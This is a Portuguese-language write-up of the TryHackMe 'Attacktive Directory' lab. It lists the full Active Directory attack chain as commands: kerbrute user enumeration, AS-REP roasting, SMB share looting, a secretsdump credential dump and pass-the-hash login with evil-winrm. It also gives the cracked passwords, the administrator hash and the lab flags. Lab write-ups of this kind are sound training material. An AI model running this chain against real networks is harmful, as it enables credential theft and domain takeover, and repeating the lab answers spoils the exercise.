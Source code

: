 # Attacktive-Directory

#TASK 3 - Enumeration Welcome to Attacktive Directory

Questions

nmap -n -T4 -sCV $TARGET_IP

![image](https://github.com/yanfernandess/Attacktive-Directory/assets/100174458/48b2485d-b7e0-4bbc-a3e2-d9d8b87a8fa6)

1 - Qual ferramenta nos permitirá enumerar a porta 139/445?
R: enum4linux

enum4linux -U $TARGET_IP

![image](https://github.com/yanfernandess/Attacktive-Directory/assets/100174458/9b888e47-7d55-4d9b-84b6-4f178c34f684)

2 - Qual é o nome de domínio NetBIOS da máquina?
R: THM-AD

Na imagem abaixo podemos observar que não tem um domínio, então a máquina é local.

![image](https://github.com/yanfernandess/Attacktive-Directory/assets/100174458/e30c3c0c-8bd7-4da3-8417-53b0e0004e3b)

3 - Qual TLD inválido as pessoas costumam usar para seu domínio do Active Directory?
R: .local

#TASK 4 -  Enumeração Enumerando usuários via Kerberos

Download · [ropnop/kerbrute · GitHub](https://github.com/ropnop/kerbrute/releases/) - Github

Terminal commands

chmod +x kerbrute_linux_amd64
./kerbrute_linux_amd64

Renomear o diretório
mkdir /opt/kerbrute
cp kerbrute_linux_amd64 /opt/kerbrute/kerbrute

Baixar lista de usuários e senhas

wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt
wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt


Questions

./kerbrute -h

![image](https://github.com/yanfernandess/Attacktive-Directory/assets/100174458/5b192e04-bfe3-42e3-a4c1-208411f4e310)


1 - Qual comando do Kerbrute nos permitirá enumerar nomes de usuários válidos?
R: userenum

sudo nano /etc/hosts
adicionar IP e domínio

![image](https://github.com/yanfernandess/Attacktive-Directory/assets/100174458/32be622c-6d70-440b-a727-c8d246825edd)

/opt/kerbrute/kerbrute userenum --dc spookysec.local -d spookysec.local userlist.txt

2 - Que conta notável é descoberta? (Estes devem saltar para você)
R: svc-admin

3 - Qual é a outra conta notável descoberta? (Estes devem saltar para você)
R: backup


# TASK 5 - Exploitation Abusing Kerberos

Questions

GetNPUsers.py spookysec.local/svc-admin -request -no-pass -dc-ip 10.10.154.98

![image](https://github.com/yanfernandess/Attacktive-Directory/assets/100174458/0054948e-1362-4e20-9468-b8dd9b73ec10)

GetNPUsers.py spookysec.local/backup -request -no-pass -dc-ip 10.10.154.98

![image](https://github.com/yanfernandess/Attacktive-Directory/assets/100174458/45d06cfb-0017-415d-ac4f-54821eb71ebc)


1 - Temos duas contas de usuário nas quais poderíamos consultar um ticket. De qual conta de usuário você pode consultar um ticket sem senha?
R: svc-admin

https://hashcat.net/wiki/doku.php?id=example_hashes
Hash mode: 18200
Hash name: Kerberos 5 AS-REP etype 23

2 - Olhando para a página Wiki de exemplos de Hashcat, que tipo de hash Kerberos recuperamos do KDC? (Especifique o nome completo)
R: Kerberos 5 AS-REP etype 23

3 - Qual modo é o hash?
R: 18200

4 - Agora quebre o hash com a lista de senhas modificadas fornecida, qual é a senha das contas de usuário?
R: management2005

# TASK 6 - Enumeration Back to the Basics

Questions

1 - Que utilitário podemos usar para mapear compartilhamentos SMB remotos?
R: SMBClient

2 - Qual opção listará os compartilhamentos?
R: -L

smbclient -U spookysec.local/svc-admin -L //10.10.154.98

![image](https://github.com/yanfernandess/Attacktive-Directory/assets/100174458/58c665df-c15f-48cb-9662-6a8f841d3cd1)


3 - Quantos compartilhamentos remotos o servidor está listado?
R: 6

4 - Há um compartilhamento específico ao qual temos acesso que contém um arquivo de texto. Qual é a parcela?
R: backup

smbclient -U spookysec.local/svc-admin //10.10.154.98/backup

ls
get backup_credentials.txt
cat backup_credentials.txt

5 - Qual é o conteúdo do arquivo?
R: YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw

echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw" | base64 -d

6 - Decodificando o conteúdo do arquivo, qual é o conteúdo completo?
R: backup@spookysec.local:backup2517860

# TASK 7 - Domain Privilege Escalation Elevating Privileges within the Domain

Questions

1 - Qual método nos permitiu descartar o NTDS.DIT?
R: DRSUAPI

secretsdump.py -dc-ip 10.10.154.98 spookysec.local/backup:backup2517860@10.10.154.98

2 - Qual é o hash NTLM dos administradores?
R: 0e0363213e37b94221497260b0bcb4fc

3 - Que método de ataque poderia nos permitir autenticar como usuário sem a senha?
R: pass the hash

4 - Usando uma ferramenta chamada Evil-WinRM, qual opção nos permitirá usar um hash?
R: -H

# TASK 8 - Flag Submission Flag Submission Panel

evil-winrm -i 10.10.154.98 -u administrator -H 0e0363213e37b94221497260b0bcb4fc
cd \users
more svc-admin\desktop\user.txt.txt

svc-admin
R: TryHackMe{K3rb3r0s_Pr3_4uth}

more backup\desktop\PrivEsc.txt

backup
R: TryHackMe{B4ckM3UpSc0tty!}

more administrator\desktop\root.txt

Administrator
R: TryHackMe{4ctiveD1rectoryM4st3r}
